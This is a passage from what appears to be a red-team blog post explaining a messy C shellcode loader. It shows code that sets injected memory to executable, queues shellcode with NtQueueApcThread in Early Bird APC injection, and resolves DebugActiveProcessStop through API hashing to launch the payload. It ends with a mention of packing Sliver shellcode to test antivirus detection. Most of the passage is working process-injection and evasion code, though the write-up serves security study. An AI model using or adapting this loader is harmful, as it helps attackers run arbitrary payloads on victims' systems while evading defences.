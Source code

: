 ```c
	if ((STATUS = NTPVM(hProcess, ppAddress, &sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &uOldProtection)) != 0) {

		printf("[!] NtProtectVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	printf("[+] Successfully changed memory region permission to RWX!\n");

	return TRUE;

}
```

It writes the shellcode into the process we created earlier and marks it as executable.

The two final pieces are located in `main.c`. Don't ask me why I put them there. I could have done the entire Early Bird APC Injection in the `APCInjection()` function. Told you it's messy code ^^.

```c
printf("[i] Running the shellcode via NtQueueApcThread..\n");
	// Running the thread via NtQueueAPCThread
	if ((STATUS = NTQAT(hThread, pProcess, NULL, NULL, NULL)) != 0) {

		printf("[-] NtQueueApcThrad failed!\n");
		return -1;
	}
	
	// API Hashing
	cDAPS cDAPSu = (cDAPS) GetProcAddressH(GetModuleHandleH(#-KERNELBASE_VALUE-#), #-DAPS_VALUE-#);

	// Stopping the debugging of the process, which launches the payload
	cDAPSu(dwProcessId);
	printf("[+] Payload executed!\n");
```

Here's what’s happening:

- `NtQueueApcThread()` queues the shellcode for execution on the main thread of the debugged process
- `DebugActiveProcessStop()` (resolved via API hashing) detaches the debugger

Detaching the debugger resumes the thread triggering the execution of our shellcode.

## Detections

This loader has many design flaws and is by no means intended to work against EDR systems. 

To test detection, I used CTFPacker to pack some raw Sliver shellcode and uploading the resulting PE to VirusTotal:
